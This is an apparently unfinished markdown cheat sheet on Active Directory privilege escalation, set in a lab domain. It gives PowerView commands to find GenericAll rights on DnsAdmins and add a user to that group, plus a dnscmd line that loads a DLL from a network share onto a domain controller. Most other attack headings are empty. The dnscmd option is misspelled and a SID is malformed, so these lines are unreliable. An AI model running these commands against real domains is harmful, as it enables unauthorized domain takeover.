 # Domain Privilege Escalation

> N.B.: You need a local admin access to do these attacks.

## ACL - Generic All

```powershell
Get-ObjectAcl -SamAccountName DnsAdmins -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericAll')}

Get-ObjectAcl -SamAccountName DnsAdmins -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericAll') -and ($_.SecurityIdentifier -match 'S-1-55465134614643146434643614646467'}
```
Adding yourself as a member

```powershell
Add-DomainGroupMember -Identity 'DnsAdmins' -Members 'student1' 
Get-DomainUser -name 'student1'
Get-DomainGroup -SamAccountName DnsAdmins
```

## ACL - GenericWrite on User

## PrintNightmare (CVE-2021-34527)

## PrivEsc - DNS Admins 

[DNS Admins PrivEsc Guide by iRedTeam](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise)
```powershell
dnscmd dc.pentesting.local /config /serverlevelplungindll \\student\share\privesc.dll
```

## DCSync0

## ZeroLogon (CVE-2020-1472)

## Unconstrained delegation

## constrained Delegation

## SET-SPN - Kerberoast

## ASPRoasting
